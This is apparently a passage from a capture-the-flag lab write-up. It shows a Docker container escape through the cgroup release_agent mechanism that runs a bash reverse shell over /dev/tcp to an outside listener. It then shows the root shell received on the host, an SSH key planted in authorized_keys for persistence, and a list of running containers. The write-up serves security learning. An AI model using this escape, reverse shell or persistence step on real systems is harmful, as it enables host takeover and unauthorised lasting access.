 ```bash
# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# echo 1 > /tmp/cgrp/x/notify_on_release
# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# echo "$host_path/exploit" > /tmp/cgrp/release_agent
# echo '#!/bin/sh' > /exploit
# echo "/bin/bash -c 'bash -i >& /dev/tcp/10.8.31.73/1235 0>&1'" >> /exploit
# chmod a+x /exploit
# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

After running this I got a reverse shell

```bash
$ nc -vlp 1235                                                                                                                                                                                                     
Listening on [0.0.0.0] (family 0, port 1235)                                                                                                                                                                       
Connection from 10.10.172.104 34704 received!                                                                                                                                                                      
bash: cannot set terminal process group (-1): Inappropriate ioctl for device                                                                                                                                       
bash: no job control in this shell                                                                                                                                                                                 
root@ip-10-10-172-104:/#
```

Now we have root to the host machine. We can look for other flags and exploits.

Added ssh key to the box, in case I lose the shell

```bash
root@ip-10-10-172-104:/root/.ssh# echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTlmYhlSbDqcexgMKE1wl+Lhb2tnm98dpHE7NRi2+0ZfyZTSQJgftw0Ljs9G/+z9fvLeVhmwlXYnh7xn6XGpSAu/YJhp+x8AHNTEE6OAw8t47wA4dUord0mkO1YUf19GGf3nqFqVUFh15mf8t/1s8tin6zR0szdMk0u9U6k5EUYCs77r56wGP2VGatbLfvOKk4wnYqfmGETOpp57Eq181XjN77FV0Njr4DAQnmQiNx6Ag1n9uXc5+P0fbEHlWp6SrOmC3c/gyVguuJ8pFRGjqD+eFbGSW+r5MXuvkW4r/bFtrs/2Ro9kr9JosaYeJocLPkLDUbyUvQveZ4pmqp7uRj" 
> authorized_keys
```

Let's have a look at other running containers

```bash
root@ip-10-10-172-104:/root/.ssh# docker container ls -a
CONTAINER ID   IMAGE       COMMAND                  CREATED      STATUS       PORTS                                          NAMES
498d22ea6efc   c3:latest   "/usr/bin/supervisor…"   3 days ago   Up 2 hours   22/tcp, 0.0.0.0:82->80/tcp                     c3
a9ef0531077f   c4:latest   "/usr/bin/supervisor…"   3 days ago   Up 2 hours   0.0.0.0:2222->22/tcp, 0.0.0.0:8888->8080/tcp   c4
6b364d3940e6   c1:latest   "/usr/bin/supervisor…"   3 days ago   Up 2 hours   22/tcp, 0.0.0.0:80->80/tcp                     c1
c418851a6a30   c2:latest   "/startup.sh"            3 days ago   Up 2 hours   22/tcp, 0.0.0.0:81->80/tcp                     c2
```
